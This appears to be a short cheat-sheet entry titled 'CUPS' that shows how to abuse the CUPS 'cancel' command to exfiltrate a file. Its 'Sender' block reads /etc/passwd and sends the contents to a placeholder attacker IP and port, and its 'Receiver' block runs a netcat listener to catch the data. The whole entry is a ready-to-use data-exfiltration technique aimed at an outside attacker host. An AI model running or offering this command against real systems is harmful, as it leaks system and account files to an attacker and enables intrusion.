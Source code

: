 # CUPS

## Sender

```
$ cancel -u "$(cat /etc/passwd)" -h <attacker_IP>:<attacker_PORT>
```

## Receiver

```
$ nc -lnvp <attacker_PORT>
```